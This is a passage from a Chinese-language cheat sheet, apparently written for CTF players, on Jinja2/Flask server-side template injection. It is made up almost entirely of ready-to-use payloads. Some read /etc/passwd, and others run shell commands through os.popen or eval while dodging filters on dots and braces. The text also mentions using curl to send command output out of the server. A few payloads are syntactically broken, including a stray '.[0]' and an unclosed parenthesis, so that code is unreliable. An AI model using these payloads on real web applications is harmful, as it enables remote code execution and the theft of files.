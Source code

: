 ```
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

### 过滤了点 .

**利用 `|attr()` 绕过（适用于 flask）**

如果 `.` 也被过滤，且目标是 JinJa2（flask）的话，可以使用原生 JinJa2 函数`attr()`，即：

```
().__class__   =>  ()|attr("__class__")
```

示例：

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}
```

等同于：

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

**利用中括号 [ ] 绕过**

如下示例：

```
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

等同于：

```
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

**这样的话，那么 `__class__`、`__bases__` 等关键字就成了字符串，就都可以用前面所讲的关键字绕过的姿势进行绕过了。**

### 过滤了大括号 `{{`

我们可以用 Jinja2 的 `{%...%}` 语句装载一个循环控制语句来绕过：

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

也可以使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 将执行结果外带（不外带的话无回显）出来：

```
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls /' %}1{% endif %}
```
